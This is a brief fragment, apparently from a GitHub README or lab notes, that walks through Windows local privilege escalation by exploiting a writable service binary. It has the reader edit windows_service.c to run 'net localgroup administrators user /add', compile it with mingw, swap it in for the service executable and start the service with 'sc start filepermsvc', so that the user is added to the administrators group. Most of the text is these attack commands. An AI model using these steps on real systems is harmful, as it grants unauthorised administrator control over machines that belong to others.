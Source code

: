 For exploitation get the both source file named windows_dll.c  and windows_service.c and 

open windows_service.c and in the command system add
`cmd.exe /k net localgroup administrators user /add` 
and just compile the file using here the name of user is "user" but replace this with the "user-name" of the windows machine you want to escalate

`x86_64-w64-mingw32-gcc windows_service.c -o x.exe `

rename it as filepermission.exe
then replace that with current file and type

`
`sc start filepermsvc`

and done we have added our user to administrators


